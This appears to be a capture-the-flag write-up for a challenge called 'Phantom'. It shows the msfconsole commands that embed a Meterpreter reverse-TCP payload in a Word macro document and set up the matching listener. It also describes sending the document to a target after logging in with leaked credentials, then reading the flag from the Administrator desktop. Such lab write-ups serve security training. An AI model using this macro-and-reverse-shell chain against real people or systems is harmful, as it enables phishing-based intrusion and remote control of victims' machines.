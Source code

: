 ## Phantom

> A Metasploit-based reverse shell attack leveraging a malicious Word macro.

![The Challenge](https://github.com/user-attachments/assets/ac6fa607-8a0b-4a7b-af81-a9981e8bd8f9)

---

### 🛠️ Initial Setup

The first thing that I could think of was using the Metasploit Framework to embed a reverse shell macro inside a Word document

![image](https://github.com/user-attachments/assets/3079d673-f2c5-449d-9f05-f64e593e1462)

```bash
msfconsole
use exploit/multi/fileformat/office_word_macro
set payload windows/meterpreter/reverse_tcp
set LHOST=10.10.236.249
set LPORT=8888
show options
exploit
```


---

### 📡 Listener Setup

After that, I set up a listener in another terminal to catch the reverse shell:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST=10.10.236.249
set LPORT=8888
exploit
```

![Handler Listener](https://github.com/user-attachments/assets/6cd1a64f-ff35-4873-8831-14730d718a8e)

---

### 🎯 Delivery

I went to the website and logged in with the leaked credentials and sent the malicious .doc file to the target and waited for them to open it.

![Login Page](https://github.com/user-attachments/assets/d469b22b-5251-4d8c-818d-54d5f788d484)
![File Upload](https://github.com/user-attachments/assets/dcf61fba-e9af-4c68-aeac-11f906d76188)

---

### 🕵️‍♂️ Exploitation

Once they did, I hooked a meterpreter session and navigated to the desktop:

```bash
cd c:/users/Administrator/Desktop
ls
cat flag.txt
```

![Meterpreter Session](https://github.com/user-attachments/assets/cf631450-aaf2-4935-a6dd-6234a7e3aaa2)

And Voila! Flag found. 
---
